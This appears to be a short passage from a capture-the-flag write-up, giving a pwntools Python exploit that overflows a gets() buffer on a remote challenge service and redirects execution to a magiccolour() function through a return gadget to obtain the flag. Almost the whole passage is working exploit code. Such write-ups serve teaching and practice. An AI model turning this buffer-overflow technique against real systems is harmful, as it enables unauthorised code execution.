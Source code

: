 ### Exploit Code

```python
from pwn import *

# Connect to remote
p = remote('4.240.104.200', 6974)

# Wait for color menu
p.recvuntil(b'5. Orange\n')
p.sendline(b'4')  # Choose option to reach gets()

# Build payload
# 64 bytes buffer + 8 bytes to overwrite saved RBP + RET gadget + address of magiccolour()
payload = b'A'*64 + p64(1) + p64(0x0000000000401016) + p64(0x401196)

# Send the payload
p.sendline(payload)

# Get flag	
p.interactive()

```
If we run this exploit, we can get the flag. 

![Image](../assets/img/csec-ctf/Picture9.png)
